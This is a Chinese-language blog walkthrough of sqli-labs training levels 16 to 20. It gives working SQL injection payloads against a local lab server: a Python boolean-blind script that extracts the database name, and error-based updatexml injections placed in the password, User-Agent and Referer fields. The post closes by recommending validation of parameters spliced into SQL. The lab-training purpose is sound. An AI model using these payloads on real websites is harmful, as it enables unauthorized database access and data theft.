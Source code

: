 ```yaml
---
layout: post
title: "sqli-labs-第16关->第20关"
subtitle: "sqli-labs-第16关->第20关"
date: 2019-09-03
author: ppbibo
category: security
finished: true
---
```

[TOC]

接着上篇：[传送门](https://6o9.im/security/2019/08/30/sqli-labs-2.html)



##sqli-labs 第16关

先查看源代码

![sqli-labs-16](/static/img/sqli-labs-16.png)



直接闭合掉前面的 **RT：**

```bash
POST：http://192.168.1.102/sqli-labs/Less-16/

uname=a") or 1=1#
```

![sqli-labs-16-1](/static/img/sqli-labs-16-1.png)



输出脚本 **RT**：

```python

import requests

sql_url = "http://192.168.1.102/sqli-labs/Less-16/"

for j in range(9): # 前面知道了数据库长度为8位

    for i in range(97, 123):  # ascii 码值 a-z : 97-122

        re = requests.request("POST",url=sql_url,data={"uname":"1\") or ord(mid((select database()),{},1))={}#".format(j,i),"passwd":"1"})

        if "flag.jpg" in re.text:

            print(chr(i))
```

![sqli-labs-16-2](/static/img/sqli-labs-16-2.png)



SQL语句解析

```mysql
1' or ord(mid((select database()),1,1))={}#

select database();  -- 当前数据库名称 "security"
select mid((select database()),1,1);  -- mid() 截断从第一位往后截断一个 "s"
select ord("s");    -- 将 "s" 转换成ascci码 115

print(chr(i))  # 在python中chr方法将 "i" ascci码值转换成对应的字符。
```



 ## sqli-labs 第17关

先看源代码 **RT:**

![sqli-labs-17](/static/img/sqli-labs-17.png)

![sqli-labs-17-1](/static/img/sqli-labs-17-1.png)



直接使用报错注入 **RT**：

```bash
uname=admin
passwd=1' or (updatexml(1,concat(0x3a,(select database())),1))#
```

![sqli-labs-17-2](/static/img/sqli-labs-17-2.png)



## sqli-labs 第18关

看源码 **RT:**

![sqli-labs-18](/static/img/sqli-labs-18.png)

![sqli-labs-18-1](/static/img/sqli-labs-18-1.png)

上面首先uname 和 passwd 参数都进行严格的校验，进行了账号密码是否正确的判断，正确的话则向 uagents 表下插入上面接收的 `$uagent` / `$IP` / `$uname` 其中 `$uagent` 和 `$IP` 没有做任何的校验，可以直接注入，如图：

```bash
User-Agent: 1' or updatexml(1,concat(0x3a,(database())),0),'','')#
```

![sqli-labs-18-2](/static/img/sqli-labs-18-2.png)

  

## sqli-labs 第19关

查看源代码

![sqli-labs-19](/static/img/sqli-labs-19.png)

跟上一关是一样的唯一不同的点是 `$uagent` 变量获取的是 HTTP 协议头 `Referer` ，

`$uagent` 和 `$ip` 变量没有进行任何校验，两个都可以注入，这里使用`uagent`参数来示范，

（`$ip` 变量获取的是HTTP协议中的 `X-Forwarded-For` 协议头 ）**RT:**

```bash
Referer: 1' or updatexml(1,concat(0x3a,(database())),0),'','')#
```

![sqli-labs-19-1](/static/img/sqli-labs-19-1.png)



## sqli-labs 第20关

直接查看源代码 **RT:**

![sqli-labs-20](/static/img/sqli-labs-20.png)

发现做了严格的校验，拼接的sql中并没有发现敏感的参数，发现事情没有那么简单

看下图：

![sqli-labs-20-1](/static/img/sqli-labs-20-1.png)



emmmm.... 都懂吧。。。直接上图了。

![sqli-labs-20-2](/static/img/sqli-labs-20-2.png)

![sqli-labs-20-3](/static/img/sqli-labs-20-3.png)

![sqli-labs-20-4](/static/img/sqli-labs-20-4.png)



## 总结

没啥总结的，认真校验任何与sql语句拼接的参数可有效防止SQL注入的产生，回家吃手抓饼去了。😁





------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***